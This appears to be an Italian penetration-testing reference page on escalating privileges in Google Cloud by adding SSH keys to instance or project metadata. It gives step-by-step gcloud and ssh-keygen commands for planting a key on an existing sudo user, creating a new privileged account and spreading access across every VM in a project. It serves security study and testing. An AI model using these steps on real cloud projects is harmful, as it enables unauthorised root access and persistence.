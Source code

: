 # GCP - Aggiungi Metadati SSH Personalizzati

## GCP - Aggiungi Metadati SSH Personalizzati

{{#include ../../../../banners/hacktricks-training.md}}

### Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe portare a **significativi rischi per la sicurezza se un attaccante ottiene i permessi necessari**.

#### **Incorporazione di chiavi SSH nei metadati personalizzati**

Su GCP, **i sistemi Linux** spesso eseguono script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** l'endpoint dei metadati dell'istanza per **aggiornamenti alle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta al file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

#### **Aggiungi chiave SSH a un utente privilegiato esistente**

1. **Esamina le chiavi SSH esistenti sull'istanza:**

- Esegui il comando per descrivere l'istanza e i suoi metadati per localizzare le chiavi SSH esistenti. La sezione pertinente nell'output sarà sotto `metadata`, specificamente la chiave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Fai attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da due punti.

2. **Prepara un file di testo per i metadati della chiave SSH:**
- Salva i dettagli dei nomi utente e delle loro corrispondenti chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti mentre ne aggiungi di nuove.
3. **Genera una nuova chiave SSH per l'utente target (`alice` in questo esempio):**

- Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo commento (`-C`) corrisponda al nome utente target.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Aggiungi la nuova chiave pubblica a `meta.txt`, mimando il formato trovato nei metadati dell'istanza.

4. **Aggiorna i metadati della chiave SSH dell'istanza:**

- Applica i metadati aggiornati della chiave SSH all'istanza utilizzando il comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Accedi all'istanza utilizzando la nuova chiave SSH:**

- Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crea un nuovo utente privilegiato e aggiungi una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno concessi privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare l'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando le chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non ha esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le chiavi SSH a livello di progetto:**

- Usa il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute in tutte le VM del progetto, a meno che una VM non abbia abilitato l'opzione "Blocca le chiavi SSH a livello di progetto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH nelle istanze utilizzando le chiavi a livello di progetto:**
- Con le chiavi SSH a livello di progetto in atto, puoi SSH in qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo accesso.
- Un metodo diretto per SSH in un'istanza è utilizzare il comando `gcloud compute ssh [INSTANCE]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.

## Riferimenti

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
